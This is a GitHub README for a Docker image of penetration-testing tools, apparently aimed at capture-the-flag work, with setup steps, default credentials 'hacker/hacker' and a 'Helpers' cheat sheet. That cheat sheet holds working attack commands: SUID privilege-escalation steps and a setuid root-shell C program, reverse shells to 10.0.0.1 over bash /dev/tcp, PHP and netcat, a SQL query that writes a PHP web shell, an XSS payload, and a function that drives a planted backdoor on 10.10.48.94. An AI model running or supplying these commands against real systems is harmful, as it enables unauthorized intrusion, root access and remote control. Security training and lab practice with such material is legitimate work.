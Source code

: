 # hacking tools

## Build from DockerHub
[DockerHub: manigley/hacking-tools](https://hub.docker.com/repository/docker/manigley/hacking-tools)

      docker run -d \
            -p 4040-4080:4040-4080 \
            -v hacking-tools-share:/home/hacker/share:rw \
            --name hacking-tools \
            manigley/hacking-tools

      docker exec -it hacking-tools zsh


## Build from source

> - **build the image**  
>   `git clone https://github.com/roymanigley/docker-hacking-tools.git`  
>   `cd docker-hacking-tools` 
>
> - **build the image**  
>   `docker-compose build` 
>
> - **start the image**  
>   `docker-compose up -d` 
>
> - **open the shell**  
>   `docker-compose exec hacking-tools zsh`  
> the **default password** for the user hacker is **hacker**  
> 
> - **shared folders**  
>   `./hacking-tools-share → /home/hacker/share`  

## push a new version to dockerhub

      export NEW_VERSION=1.0.0
      docker-compose build \
            && docker tag hacking-tools_hacking-tools:latest manigley/hacking-tools:$NEW_VERSION \
            && docker push manigley/hacking-tools:$NEW_VERSION

## Credentials

| Username    | Password |
| ----------- | -------- |
| hacker      | hacker   |

## Tools

| Name        | Installation Path             |
| ----------- | ----------------------------- |
| wordlists   | /usr/share/wordlists          |
| webshells   | /usr/share/webshells          |
| exploit-db  | /usr/share/exploit-database   |
| john        | /usr/src/john                 |
| openvpn     | /usr/sbin/openvpn             |
| nmap        | /usr/bin/nmap                 |
| dirb        | /usr/bin/dirb                 |
| sqlmap      | /usr/share/sqlmap             |
| hashcat     | /usr/bin/hashcat              |
| hydra       | /usr/bin/hydra                |
| netcat      | /bin/nc.openbsd               |
| enum4linux  | /usr/share/enum4linux         |
| PEASS-ng    | /usr/share//PEASS-ng          |

---

## Helpers

### Privilege Escalation

-     uname -a; lsb_release -a; w; id;
-     find / -perm -u=s -type f 2>/dev/null
-     chmod u+s /bin/bash # as root
      /bin/bash -p # as user

-     vim /tmp/ecalate.c

      #include <unistd.h>

      int main() {
        setgid(0);
        setuid(0);
        execl("/bin/bash", "bash", (char *)NULL);
        return 0;
      }

      gcc /tmp/ecalate.c -o /tmp/ecalate
      chown root:root /tmp/ecalate
      chmod u+s /tmp/ecalate && chmod g+s /tmp/ecalate

### Shell spawning
-     nmap --interactive
      !sh
-     zip xy.zip -T -TT 'bash #'
-     python -c 'import pty;pty.spawn("/bin/bash")'

### RSH
> more in [RSH.md](RSH.md)

-     SELECT '<?php system($_GET["cmd"]); ?>' INTO dumpfile ‘/tmp/somefile’;

-     bash -i >& /dev/tcp/10.0.0.1/4040 0>&1

-     php -r '$sock=fsockopen("10.0.0.1",4040);exec("/bin/sh -i <&3 >&3 2>&3");'

-     nc 10.0.0.1 4040 | /bin/sh | nc 10.0.0.1 4242

### XSS

-     <img src="!" onerror="alert(1);">

### tool finder 
-     type nc; type netcat; type python; type python2; type python3 


      function myrsh {
            declare param=$(omz_urlencode "$1")
            curl "http://10.10.48.94/uploads/php-backdoor.phtml?cmd=$param"
      }





    python -c 'import os; os.system("/bin/sh")'

